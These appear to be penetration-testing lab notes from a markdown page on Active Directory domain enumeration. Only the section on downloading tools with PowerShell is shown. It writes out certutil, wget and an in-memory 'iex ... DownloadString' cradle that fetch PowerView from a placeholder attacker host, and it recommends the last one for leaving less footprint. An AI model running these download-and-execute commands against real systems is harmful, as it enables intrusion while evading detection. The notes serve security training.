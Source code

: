 # 3. Domain Enumeration

## **Table of Contents**

**1.** [**Downloading Files With PowerShell**](#1-downloading-files-with-powershell)
**2.** [**Enumerating Users**](#2-enumerating-users)
**3.** [**Enumerating Groups**](#3-enumerating-groups)
**4.** [**Enumerating Domain Computers and Shares**](#4-enumerating-domain-computers-and-shares)
   **4.1** [**Enumerate Shares**](#41-enumerate-shares)
**5.** [**File Finder**](#5-file-finder)
**6.** [**Enumerating Local Admin Users**](#6-enumerating-local-admin-users)
**7.** [**Enumerate Group Policy Objects**](#7-enumerate-group-policy-objects)
**8.** [**Enumerate Access Control Lists**](#8-enumerate-access-control-lists)
**9.** [**Enumerating the Domain**](#9-enumerating-the-domain)
**10.** [**PowerShell Remoting**](#10-powershell-remoting)


## 1. Downloading Files With PowerShell

- There are different ways to download files with PowerShell:
  - Using `certutil` cmd:


  ```PowerShell
  PS C:\Users\s.chisholm.mayorsec\Desktop> certutil.exe -urlcache -f http://xxx.xxx.xxx.xxx/powerview.ps1 powerview.ps1
  ****  Online  ****
   CertUtil: -URLCache command completed successfully.
  ```
  
  - Using `wget` cmd:
    
  ```powershell
   wget http://xxx.xxx.xxx.xxx/powerview.ps1 -OutFile powerview1.ps1
  ```
  - **For less footprinting or storing the file in memory we use `iex (New-Object Net.WebClient).DownloadString(<file url>)` cmd**


  ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/powerview.ps1')
  ```
- With `iex` cmd we can directly use further cmds.

```powershell
PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/powerview.ps1')
PS C:\Users\s.chisholm.mayorsec\Desktop> get-netcomputer
DC01.mayorsec.local
WORKSTATION-01.mayorsec.local
WORKSTATION-02.mayorsec.local
```
OR

```powershell
PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/powerview.ps1');get-netcomputer
DC01.mayorsec.local
WORKSTATION-01.mayorsec.local
WORKSTATION-02.mayorsec.local
```
